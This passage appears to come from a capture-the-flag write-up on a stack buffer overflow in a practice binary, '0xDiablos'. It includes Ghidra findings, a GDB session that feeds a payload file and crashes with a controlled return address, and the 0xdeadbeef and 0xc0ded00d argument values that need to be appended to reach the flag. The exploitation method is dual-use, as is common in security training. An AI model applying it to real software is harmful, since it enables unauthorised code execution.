 After running Ghidra, we find the following:

<img src="../figs/ghidra-fopen.png" alt="ghidra">

We see that the file name is `flag.txt`. Alright! We can create a flag ourselves and keep testing it locally. Just run `echo "hi mom" > flag.txt` and go back to GDB!

```bash
(gdb) r < payload.bin 
Starting program: /tmp/htb/vuln < payload.bin
Downloading separate debug info for system-supplied DSO at 0xf7fc7000                  
[Thread debugging using libthread_db enabled]                                          
Using host libthread_db library "/usr/lib/libthread_db.so.1".
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��

Program received signal SIGSEGV, Segmentation fault.
0xffffff00 in ?? ()
```

Note that now we are not getting the message. This is because the program is successfully openning the `flag.txt` file and reading its contents. The problem is: it is not printing it for us!

Looking back at Ghidra, we see this line:

```c
[...snip...]
if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3))
[...snip...]
```

which is similar to the line we analyzed with `objdump`, where it compares the values of two registers with `0xdeadbeef` and `$0xc0ded00d`. To trigger this if statement, we need to concatenate these addresses in our payload. Hopefully, this solves the challenge!

